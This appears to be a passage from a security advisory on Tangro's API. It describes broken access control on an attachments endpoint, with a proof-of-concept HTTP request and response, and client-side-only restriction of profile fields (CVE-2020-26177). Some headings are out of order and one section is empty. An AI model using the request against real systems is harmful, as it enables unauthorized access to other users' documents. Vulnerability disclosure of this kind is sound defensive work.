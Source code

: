 ### Description

No or broken access control checks exist on the `/api/document/<DocumentID>/attachments` API endpoint.

Knowing a document ID, it is possible to list all the attachments of a workitem, including their respective IDs. This allows an attacker to gather valid attachment IDs for workitems that do not belong to them.

### Proof of Concept

Request:

```
GET /api/document/<DocumentID>/attachments HTTP/1.0 
Host: <Tangro Host>
X-AUTH-TOKEN: "<Token>"
```

Response:

```
HTTP/1.0 200 OK 
Content-Type: application/json; charset=utf-8 
Date: Thu, 17 Sep 2020 11:00:33 GMT

[{"archiveDocumentId":"<AttachmentID>","archiveId":"D1","archiveObject":"/SSC/PDF","creationDate":1594764000000,"name":"","sapBusinessObject":"<SAP ID>","user":""}]
```

## Editing Disabled Profile Attributes

| Key | Value |
|---|---|
| Vulnerability Type | Incorrect Access Control |
| CVSSv3 Severity | AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N (Score 4.3) |
| CWE Reference | CWE-639 |
| CVE Reference | CVE-2020-26177 |

### Description

## Overview

A user’s profile contains some items that are greyed out and thus are not intended to be edited by regular users. However, this restriction is only applied client­-side.
Manipulating any of the greyed out values in requests to `/api/profile` is not prohibited server-side.

## Unauthenticated Download of Workitem Attachments
